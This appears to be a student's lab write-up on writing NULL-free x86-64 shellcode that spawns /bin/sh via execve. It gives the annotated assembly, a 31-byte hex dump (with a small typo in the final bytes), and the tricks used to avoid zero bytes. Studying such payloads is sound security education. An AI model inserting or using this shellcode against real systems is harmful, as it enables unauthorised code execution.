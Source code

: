 # Shell code

The goal of this lab was to learn how to write x86-64 bit program in assembly that can be loaded by a C program.

This shellcode will execute /bin/sh using exceve.
 
We also learned about gdb through using it to write our assembly program. 

## Program
```
// Shellcode lab
// Author: Long Tran
.globl _start
.section .text
_start:
    // zero out rax
    xor %rax, %rax
    // push to have array of zeroes on the stack
    pushq %rax
    // %rsi and %rdx - set these to the address leading to an empty array of no pointers.
    // we don't need a pointer to an empty string
    movq %rsp, %rsi
    movq %rsp, %rdx
    
    // %rdi - path
    // "/bin/sh 0x2F62696E2F7368
    // needs to change to little endianess
    movq $0x68732F6E69622F3b, %rbx 
    // retrieve 0x3b, put it in lower 8-bit of rax
    mov %bl, %al

    // push the string
    pushq %rbx
    // copy the stack pointer
    movq %rsp, %rdi
    // increase it by one to get past 0x3b
    inc %rdi

    syscall
```
### Explanation

To set up for the system call, we basically need the following:

1. Put 0x3b into %rax
2. Push 8 bytes of 0x0 onto the stack. 
3. Store the address of the memory of the pushed 0 in %rsi (argv) and %rdx (env). This will lead to an empty array of pointers. 
4. Push the string "/bin/sh" onto the stack.
5. Store the address of the string in %rdi. 
6. Call the system call with `syscall`

However, to remove the zero byte and reduce the size. I made some changes. A detailed instruction can be seen through the comments of the assembly code. 

### Report

My shell code is 31 bytes long. Here they are:

    48 31 c0 50 48 89 e6 48 89 e2 48 bb 3b 2f 62 69 6e 2f 73 68 88 d8 53 48 89 e7 48 ff c7 f 5

### Explanation for NULL bytes        

As can be seen from the hexdump, there is no 0 bytes in the code.
I made sure that there are no NULL bytes by adding a check in the shellcode_tester.c and check if there is a 0 byte read. If there is a 0 byte read, then the program exits.

I realized by adding and removing instructions that the zero bytes only come from the intermediate numbers (e.g: $0x3b) to fill up the 8 bytes.

Thus, to eliminate NULL bytes, I did 2 things: 
1. I xor 2 registers to get a value 0 without having to write $0x0. 
2. I combined both the string "/bin/sh" and the code system call code 0x3b into one number. To get the code, I only simply need to get the lower 8 byte from the register. I then pushed the entire number and to get the address of the string "/bin/sh" only, I incremented the stack pointer by one to get pass 0x3b. 
